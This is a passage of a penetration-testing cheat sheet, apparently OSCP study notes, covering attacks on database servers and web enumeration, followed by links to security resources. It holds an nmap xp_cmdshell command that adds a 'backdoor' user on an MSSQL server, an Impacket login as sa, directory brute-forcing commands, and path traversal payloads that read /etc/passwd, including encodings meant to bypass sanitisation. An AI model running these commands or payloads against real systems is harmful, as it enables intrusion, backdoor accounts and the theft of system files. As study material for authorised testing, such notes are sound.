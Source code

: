 
## Databases
* TNSListener
* MySQL: Executing shell on windows from db:[^35]
    * HackMag[^36]
* MSSQL: 
    ```
    nmap -Pn -n -sS --script=ms-sql-xp-cmdshell.nse $rhost -p1433 --script-args mssql.username=sa,mssql.password=$password,ms-sql-xp-cmdshell.cmd="net user backdoor backdoor123 /add"
    ```
* MSSQL:
    * (From Impacket)
    ```bash
    ./mssqlclient.py sa:password@$rhost -p 1433 
    ```

---

## Web
```bash
wafw00f http://$rhost
nikto -h $url -C all -oX
```

* Directory: 
    ```bash
    ffuf -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -u https://gg.example.com/FUZZ -recursion -recursion-depth 3 -recursion-strategy greedy -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4674.0 Safari/537.36" -o output
    gobuster dir -w $dirlist -u http://$rhost -l -t 50 (l for size,t for threads)
    dirbuster -l /usr/share/wordlists/dirbuster/directory-list-1.0.txt =R  -s / -t 40 -r ./dirbuster-$host -u http://$host (Turn off "recursive"  adjust threads to 30-45)
    cat ~/Results/naabu/naabu_all_ports_withoutIPs_https.txt | ~/Tools/feroxbuster --stdin --parallel 10 -e -A -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -o ~/Results/feroxbuster/naabu_raft-large-directories.txt
    skipfish -YO http://$rhost:$rport -o skipfish_output
    wget -r http://$rhost:$rport -o wget_output
    # BurpSuite - Spider from Results of dirbuster
    ```
* Webdav Test
    ```bash
    davtest -url $url
    cadaver $url:80
    ```


* LFI: 
    ```bash
    http://$url/index/../../../../etc/passwd
    $url/index/../../../../etc/passwd%00
    \n \r
    ```
    * Bypass Sanitation:
        ```
        $url/index/2E%2E%%2F%2E%2E%%2F%2E%2E%%2F%2E%2E%%2Fetc%2Fpasswd
        $url/index/..\/..\/..\/..\/etc\/passwd
        $url/index/..//..//..//..//etc//passwd
        $url/index/..///..///..///..///etc///passwd
        # http://www.vulnerability-lab.com/resources/documents/587.txt

[^1]: [sleventyeleven](https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py)
[^2]: [highon.coffee](https://highon.coffee/downloads/linux-local-enum.sh)
[^3]: [rebootuser](https://github.com/rebootuser/LinEnum)
[^4]: [g0tm1lk](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
[^8]: [Memmodipper](https://www.exploit-db.com/exploits/18411)
[^9]: [chkrootkit](https://www.exploit-db.com/exploits/33899)
[^10]:  [Mimikatz](https://github.com/gentilkiwi/mimikatz/releases/latest)
[^11]: [Amplia Security](https://www.ampliasecurity.com/research.html)
[^12]: [Foofus](http://foofus.net/goons/fizzgig/fgdump/downloads.htm)
[^13]: [neomh](https://github.com/neomh/cheat-sheets/blob/master/Commands)
[^14]: [Pentest monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
[^15]: [Vulnerabilityassessment.co](http://www.vulnerabilityassessment.co.uk/Penetration%20Test.html)
[^16]: [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Common-Credentials)
[^17]: [Escape from shellcatraz](https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells)
[^18]: [ianthomasfry](https://ianthomasfry.blogspot.com/2017/05/oscp-exam-study-guide-i-first-steps.html)
[^19]: [Sec Juice](https://www.secjuice.com/oscp-prep-guidance/)
[^20]: [scund00r](https://scund00r.com/all/oscp/2018/02/25/passing-oscp.html)
[^21]: [backdoorshell](https://backdoorshell.gitbooks.io/oscp-useful-links/content/fuzzing.html)
[^22]: [0xc0ffee](http://0xc0ffee.io/blog/OSCP-Goldmine)
[^23]: [swisskyrepo](https://github.com/swisskyrepo/PayloadsAllTheThings/)
[^24]: [ihack4falafel](https://github.com/ihack4falafel/OSCP/blob/master/Documents/Bookmark%20List.pdf)
[^25]: [kevsec](http://kevsec.fr/resources/)
[^26]: [futureoscp](http://futureoscp.blogspot.com/2017/10/usefull-oscp-material.html)
[^5]: [WindowsPrivCheck](https://github.com/ihack4falafel/OSCP/blob/master/Documents/Upgrading%20half%20shells%20to%20fully%20interactive%20TTYs.pdf)
[^6]: [Accesschk](https://download.sysinternals.com/files/AccessChk.zip)
[^7]: [JAWS](https://github.com/411Hall/JAWS.git)
[^31]: [Exploit-db-130179](https://www.exploit-db.com/papers/13017)
[^32]: [hackingarticles](https://www.hackingarticles.in/5-ways-exploit-lfi-vulnerability/)
[^33]: [Graceful security](https://www.gracefulsecurity.com/path-traversal-cheat-sheet-windows/)
[^34]: [3mrgnc3](https://github.com/3mrgnc3/LFIter2/blob/master/win-fpaths.txt)
[^35]: [Ethical Hackers Club](https://www.youtube.com/watch?v=1fkgo4hsyp8)
[^36]: [HackMag](https://hackmag.com/security/hacking-mysql-databases-methods-and-tools/)